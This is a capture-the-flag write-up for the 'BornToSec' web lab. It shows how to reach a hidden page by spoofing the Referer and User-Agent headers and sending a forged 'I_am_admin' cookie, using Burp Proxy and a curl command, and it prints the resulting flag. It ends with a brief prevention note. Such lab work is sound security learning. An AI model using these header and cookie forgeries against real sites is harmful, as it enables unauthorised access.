 
# Modifying HTTP requests with Burp Proxy

going through the html on the link `© BornToSec` at the bottom
```
You must come from : "https://www.nsa.gov/".

Let's use this browser : "ft_bornToSec". It will help you a lot.
```
```
GET /?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f HTTP/1.1
Host: 10.12.100.231
Upgrade-Insecure-Requests: 1
User-Agent: ft_bornToSec
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: https://www.nsa.gov/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Connection: close
```

The flag is : `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`


======

# Using Developers tool

```
Open the developer tools in your browser. You can do this by pressing F12 on Windows/Linux or Command + Option + I on Mac.

Go to the Network tab.

Make sure the Preserve log option is selected.

Refresh the page that you want to modify the Referer header for.

Find the request in the Network tab that you want to modify the Referer header for.

Look for the option to "Copy as cURL" or "Copy as Fetch" and paste the copied request to edit and resend it.
```

```
curl 'http://10.12.100.231/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-US,en;q=0.9,ar;q=0.8,fr;q=0.7' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Cookie: I_am_admin=68934a3e9455fa72420237eb05902327' \
  -H 'Referer: https://www.nsa.gov/' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: ft_bornToSec' \
  --compressed \
  --insecure | grep flag
```
```
<center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

## # Prevention

To access the page, a verification may be required, and we can accomplish this by requesting a pass token through the params.